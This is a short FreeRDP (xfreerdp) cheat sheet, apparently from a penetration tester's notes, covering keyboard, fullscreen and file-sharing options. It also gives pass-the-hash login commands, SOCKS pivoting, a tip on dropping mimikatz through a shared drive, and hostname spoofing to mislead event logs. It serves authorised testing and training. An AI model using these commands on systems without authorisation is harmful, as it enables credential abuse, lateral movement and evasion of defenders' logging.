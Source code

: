 # FreeRDP

## 01 - Authenticate RDP

- Choose keyboard layout that is familiar to you and then specify the `/kbd:0x<layout_id>` or `/kbd:US` flag.

`$ xfreerdp /kbd-list`

- Fullscreen

```
$ xfreerdp /dynamic-resolution /toggle-fullscreen

$ xfreerdp /dynamic-resolution /f
```

- Connect to legacy operating systems.

`$ xfreerdp -sec:rdp +nego`

- Reuse passwords

```
$ xfreerdp /kbd:US /clipboard /compression /dynamic-resolution /f /u:<username> /d:<domain_name> /p:<password> /cert:ignore /v:<IP> /port:[<PORT>]

$ xfreerdp /kbd:US /clipboard /compression /dynamic-resolution /f /u:[DOMAIN\]<username> /p:<password> /cert:ignore /v:<IP>:[<PORT>]
```

- Pass the Hash

```
$ xfreerdp /kbd:US /clipboard /compression /dynamic-resolution /f /u:<username> /d:<domain_name> /pth:<nt_hash> /cert:ignore /v:<IP> /port:[<PORT>]

$ xfreerdp /kbd:US /clipboard /compression /dynamic-resolution /f /u:[DOMAIN\]<username> /pth:<nt_hash> /cert:ignore /v:<IP>:[<PORT>]
```

## 02 - Pivoting with RDP via SOCKS Proxy

`$ xfreerdp /kbd:US /clipboard /compression /dynamic-resolution /f /proxy:socks5://<IP>:<PORT> /u:<username> /p:<password> /v:<IP>:[<PORT>]`

## 03 - Share files

`$ xfreerdp /kbd:US /clipboard /compression /dynamic-resolution /f /u:<username> /p:<password> /v:<IP>:[<PORT>] /drive:/path/to/folder-to-share`

- You can navigate it to windows when you drop the tools like `mimikatz`.

`C:\> \\tsclient\<share_name>\`

## 04 - OPSEC Consideration

- Change your Linux hostname to the same target workstation to spoof the event logs

`$ sudo hostnamectl set-hostname "<windows_workstation_name_to_spoof>"`

---
## References

- [FreeRDP User Manual](https://github.com/awakecoding/FreeRDP-Manuals/blob/master/User/FreeRDP-User-Manual.markdown)

- [Pass the Hash Attack with RDP](https://infinitelogins.com/2021/02/20/pass-the-hash-attack-with-rdp/)

- [Hacktricks: Pentesting RDP](https://book.hacktricks.xyz/pentesting/pentesting-rdp)

- [Make FreeRDP Prompt User for Username and Password](https://unix.stackexchange.com/questions/119880/make-freerdp-prompt-user-for-username-and-password)